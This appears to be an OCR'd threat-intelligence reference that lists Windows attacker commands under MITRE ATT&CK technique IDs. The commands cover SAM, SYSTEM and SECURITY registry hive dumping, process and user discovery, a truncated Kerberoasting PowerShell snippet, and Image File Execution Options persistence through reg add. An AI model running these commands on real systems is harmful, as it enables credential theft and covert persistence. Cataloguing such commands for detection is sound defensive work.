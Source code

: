OS Credential Dumping: Security Account Manager [[T1003.002](https://attack.mitre.org/techniques/T1003/002/)]

```
С:\Windows\System32\reg.exe save hklm\sam sam.hive
reg save hklm\system sys
reg save hklm\security sec
```
<br>

Process Discovery [[T1057](https://attack.mitre.org/techniques/T1057/)]

```
tasklist.exe /svc
powershell.exe Get-Process
```
<br>

System Network Configuration Discovery: Internet Connection Discovery [[T1016](https://attack.mitre.org/techniques/T1016/)]

```
ping.exe -n 1 -a <ip_address>
```
<br>

System Owner/User Discovery [[T1033](https://attack.mitre.org/techniques/T1033/)]

```
whoami
whoami /all
whoami /upn
quser.exe quser
quser.exe whoami
net user
net user <username>
net user /domain
net user <username> /domain
```
<br>

Steal or Forge Kerberos Tickets: Kerberoasting [[T1558.003](https://attack.mitre.org/techniques/T1558/003/)]

```
$Null = [Reflection.Assembly]::LoadWithPartialName( 'System.IdentityModel' ); $search = New-Object DirectoryServices.DirectorySearcher( [ADSI]'' ); $search.filter = '(&(servicePrincipalName=*)(objectCategory=user))'; $results = $search.Findall(); foreach ( $results in $results ) { $u = $results.GetDirectoryEntry(); 
samAccountName = $u.samAccountName; foreach ( $s in $u.servicePrincipalName )
```
<br>


Event Triggered Execution: Image File Execution Options Injection [[T1546.012](https://attack.mitre.org/techniques/T1546/012/)]

```
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\<target_file>.exe" /v Debugger /d "<threat_actor_file>.<ext>"
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\<target_file>.exe" /v GlobalFlag /t REG_DWORD /d <GlobalFlag_registry_entry_value>
```
<br>
